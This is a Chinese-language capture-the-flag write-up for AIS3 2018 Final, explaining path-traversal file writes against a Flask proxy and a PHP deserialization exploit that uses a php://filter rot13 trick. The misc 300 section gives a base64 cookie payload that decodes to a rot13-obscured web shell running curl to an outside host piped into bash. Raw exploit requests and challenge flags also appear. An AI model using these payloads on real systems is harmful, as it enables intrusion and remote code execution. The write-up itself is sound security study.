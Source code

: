 # AIS3 2018 Final

## web 100

這題就是他會告訴你下一個HTTP Method要送啥

你送過去，他就噴給你flag的一個字元

就把它噴完吧

`AIS3{HtTpMe5h0dI5FunaNdGo0DXDdDdDDDx!}`

## web 200

這題是Flask題目

他的架構是Reverse Proxy

Client送出request後，Server會再把request發出去 (以這題來說，他是發給自己)

然後Server拿到Response，會先log起來，再回傳給Client

這邊`write_to_file`裡面的os.join沒有嚴格處理好，`clean_url()`可以塞`../`

所以我們就能控制寫檔的路徑惹

而且這邊內容由於會被覆寫，所以只會寫入最後的`r.content`，也就是`QAQ`

然後FLAG要在我們送`ADMIN` method，且指定路徑的檔案內容跟我們送過去的POST data一樣才會噴出來

但這邊路徑沒辦法`../`，我們只能比對`password/`下的內容

所以我們最後可以送`GET /../../../password/kaibro`，他就會把`QAQ`寫到`password/kaibro`

訪問`ADMIN /kaibro`，並POST帶上`QAQ`就能拿到FLAG惹

payload:

寫檔:

```
GET /../../../password/kaibro HTTP/1.1
Host: localhost:8787
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: _ga=GA1.1.434020595.1513762852
Connection: close
Upgrade-Insecure-Requests: 1
```

```
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 3
Server: Werkzeug/0.14.1 Python/2.7.15
Date: Sun, 05 Aug 2018 06:28:04 GMT

QAQ
```

訪問ADMIN拿flag:

```
ADMIN /kaibro HTTP/1.1
Host: srv02.ctf.ais3.org:8787
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 3

QAQ
```

```
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 34
Server: Werkzeug/0.14.1 Python/2.7.15rc1
Date: Sun, 05 Aug 2018 06:28:57 GMT

AIS3{f1aSk_pr0Xy_5Erver_15_N1Ce!!}
```

## misc 300

這題其實是純Web

題目進去是個Web介面，會顯示一頂帽子和一個輸入框

可以輸入色碼，他會改變帽子顏色

稍微踹一下可以發現有`.git`

然後可以還原Source Code

他裡頭在做的事是，他會取出`$_COOKIE['hat_profile']`，然後去`base64_decode()`

最後再`unserialize()`

所以這邊就有一個反序列化漏洞

我們可以控到裡面的`UserProfile`這個class的變數值

裡頭有兩個變數，一個是記錄要寫檔的路徑，一個是記錄內容

但困難點是，雖然內容控得到，但`file_put_contents`的時候，會強制在前面加上`<?php die('Access Denied'); ?>`

所以就得想辦法繞過這個限制，不然我們後面塞啥都不會被執行

這裡用到的trick是，`file_put_contents`第一個參數可以用`php://filter`

(類似這樣: `php://filter/write=string.rot13/resource=shell.php`)

這邊我用`rot13`把Access Denied那一段轉成不會被解析的文字

最後，把後面內容控成我們要的內容即可(兩次rot13會還原)

流程就是：先把payload序列化，再base64 encode，最後塞進cookie，然後訪問就會寫檔惹，接著就拿shell

Payload:

`TzoxMToiVXNlclByb2ZpbGUiOjI6e3M6MTc6InNldHRpbmdfc2F2ZV9wYXRoIjtzOjUxOiJwaHA6Ly9maWx0ZXIvd3JpdGU9c3RyaW5nLnJvdDEzL3Jlc291cmNlPXNoZWxsMy5waHAiO3M6MTc6IgBVc2VyUHJvZmlsZQBkYXRhIjthOjI6e3M6MzoiaGF0IjtzOjE6ImEiO3M6NDoiaGF0MiI7czo0NjoiPD9jdWMgZmxmZ3J6KCdwaGV5IHhudm9lYi5nai9ufG9uZnUnKTs/Pnhudm9lYiI7fX0=`

`AIS3{Conquer_The_World}`

p.s. phithon有篇文章就是在說明這種利用方式: https://www.leavesongs.com/PENETRATION/php-filter-magic.html
